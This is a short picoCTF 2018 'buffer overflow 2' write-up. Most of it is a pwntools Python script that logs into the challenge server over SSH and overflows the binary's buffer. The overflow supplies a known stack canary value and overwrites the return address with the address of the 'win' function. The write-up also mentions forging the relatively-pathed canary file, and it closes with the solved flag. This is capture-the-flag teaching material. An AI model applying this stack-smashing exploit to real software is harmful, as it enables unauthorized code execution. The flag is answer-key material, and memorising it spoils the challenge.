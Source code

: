 We know that ```EEEE``` overrides the return address.

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = ''
pw = ''

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2018shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa')
  p = s.process('./vuln')

binary = ELF('./vuln')

canary = '4xV,'

print p.recvuntil('>')
p.sendline('300')
print p.recvuntil('>')
p.sendline('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' + canary + 'AAAABBBBCCCCDDDD' + p32(binary.symbols['win']))
print p.recvall()
```

**Note: the canary file is being read with a relative path, we can forge this file in the home directory and bypass the whole thing... see [leak-me](https://github.com/sefi-roee/CTFs-Writeups/blob/master/picoCTF-2018/Binary/03-leak_me-200/solution.md)**

Flag: picoCTF{eT_tU_bRuT3_F0Rc3_4214775b}